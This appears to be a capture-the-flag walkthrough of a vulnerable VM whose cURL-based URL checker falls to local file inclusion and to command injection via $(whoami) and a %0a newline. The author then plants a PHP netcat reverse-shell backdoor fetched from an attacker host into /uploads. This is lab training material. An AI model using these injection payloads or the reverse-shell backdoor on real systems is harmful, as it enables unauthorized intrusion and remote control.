 Booting up the VM gives you the IP of the target: 

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_securictf_29_04_2017_09_02_56.png)

An NMAP scan of all ports `nmap -p- 192.168.1.143` returns port 80 open, running and HTTP service.

Visiting this in a browser I am presented a page with some kind of "URL connectivity checker" which just returns the resource or the URL that is entered.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_05_20.png)

Looking at the output it is pretty clear the backend is using cUrl to return the requested URL. A couple things pop into my mind, maybe LFI or better yet RCE. 

Before poking at this I went ahead and started bruteforcing directories in the background:

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_16_00.png)

Looking back at index.php I tried a few things the first being LFI.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_06_59.png)

Ok, cool so I can view files on the system maybe there is something interesting we can find, but before spending time looking for interesting files let me see if I can just acheive RCE and get a reverse shell.

I tried some different input that would allow me to append a command to the cUrl command that retreives the resource and it seemed there was some kind of black listing. This prevented me from using something straight forward like, `&` or `|`.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_08_09.png)

Since blacklisting is never a good way to go when preventing input there has to be a way to get a command to execute. Sure enough I found a few different ways to do this. 

I can use something like `$(whoami)` which will evaluate the command in the parenthesis before executing the curl command and return the output in the error.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_17_49.png)

Intercepting the POST request in Burpsuite I was able to insert a URL encoded newline charater `%0a` followed by any command which will execute the command.

I ended up figuring out that I can also just redirect the output of the cUrl command to a file. Looking back at the directory brute force I had started, there is a directory called `/uploads` which is likley writable by www-data.

I created a file on my attacker machine that contained some PHP to execute netcat on the target and connect back to my machine giving me a bash shell `<?php system('nc -c "/bin/bash" 192.168.1.139 444);?>`. Then started up a python simple http sever and requested this file using the interface of the target web app and redirected the output to a file in the uploads directory like so: `http://192.168.1.139:555/backdoor > ./uploads/backdoor.php`. The `>` is redirecting this output of the cUrl command which will be the PHP of the file I created on my attacker machine and putting it into a file called backdoor.php.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_45_20.png)

Check if the file successfully ended up in `/uploads`

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_48_46.png)

Yup, ok now I have my reverse shell on the target machine I can startup netcat on my attacker machine and get a connection.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_53_28.png)

Spawn a proper shell.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_54_25.png)

Now I can start looking around.





